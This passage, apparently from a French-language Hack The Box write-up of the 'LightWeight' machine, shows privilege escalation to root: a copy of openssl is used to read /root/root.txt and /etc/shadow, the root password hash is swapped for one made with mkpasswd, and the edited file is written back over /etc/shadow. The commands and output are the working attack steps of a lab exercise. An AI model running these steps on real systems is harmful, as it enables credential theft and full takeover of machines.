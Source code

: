 	[ldapuser1@lightweight ~]$ /home/ldapuser1/openssl enc -in /root/root.txt -out /tmp/password.txt
	[ldapuser1@lightweight ~]$ wc -c /tmp/password.txt 
	33 /tmp/password.txt
	[ldapuser1@lightweight ~]$

Nous avons bien le root.txt mais il faut être root c'est le principe d'une box. Donc notre but c'est de lire le fichier /etc/shadow et ensuite de le mettre dans le dossier /tmp, de changer le hash par notre hash avec mkpasswd pour ensuite remplacer /etc/shadow par notre fichier.

Tout d'abord on va crée notre mot de passe :

	root@Seyptoo:~/htb# mkpasswd -m sha-512 seyptoo
	$6$wtB8S4kweNAe37hN$Rttczh0dwMiKu7cAVcSQkTx8yxtG1qEwvBNrFommSsEmrQJ5LJjeOAKFQZw5QGH59VRqkE1bBFXsyrF6sQMS/0

Ensuite dans la machine LightWeight, nous allons créer clé privée avec openssl, et également de créer un fichier pem.

	[ldapuser1@lightweight tmp]$ /home/ldapuser1/openssl genrsa -out /tmp/key.pem 2048 # private key.
	[...SNIP...]
	[ldapuser1@lightweight tmp]$ /home/ldapuser1/openssl req -x509 -newkey rsa:2048 -keyout /tmp/key.pem -out /tmp/cert.pem -days 365 -nodes # pem.
	[...SNIP...]

Une fois que c'est ok, nous allons tout simplement lire le fichier /etc/shadow et de le mettre dans le dossier /tmp et ensuite de modifier le mot de passe root.

	[ldapuser1@lightweight tmp]$ /home/ldapuser1/openssl enc -in /etc/shadow -out /tmp/shadow
	[ldapuser1@lightweight tmp]$ vim /tmp/shadow
	root:$6$xQPkHtTmdxu$Tzpw.1d.5bb0TeHyMmZcb4Myg5FIRi4G4SfPDAXE2./vPYspVnMz1xigdAdXy/3GMIygruFPhwRBDX8YV5QzI1:17711:0:99999:7:::
	[...SNIP...]
	
Une fois que la valeur a été modifié nous allons transmettre ce fichier dans le dossier /etc.

	[ldapuser1@lightweight tmp]$ /home/ldapuser1/openssl smime -encrypt -aes256 -in /tmp/shadow -binary -outform DER -out /tmp/shadow.enc /tmp/cert.pem
	[ldapuser1@lightweight tmp]$ /home/ldapuser1/openssl smime -decrypt -in /tmp/shadow.enc -inform DER -inkey /tmp/key.pem -out /etc/shadow
	[ldapuser1@lightweight tmp]$ su - root
	Password: seyptoo
	Last login: Thu May  9 09:01:37 BST 2019 on pts/5
	Last failed login: Thu May  9 09:16:01 BST 2019 from 10.10.12.236 on ssh:notty
	There was 1 failed login attempt since the last successful login.
	[root@lightweight ~]# id
	uid=0(root) gid=0(root) groups=0(root)

![frustrated-computer-baboon](https://media.giphy.com/media/1tHzw9PZCB3gY/giphy.gif)

Parfait nous sommes root. C'étais ma box préférer n'hésiter pas à mettre un star dans ma repo ça me feras grave plaisir ! :D
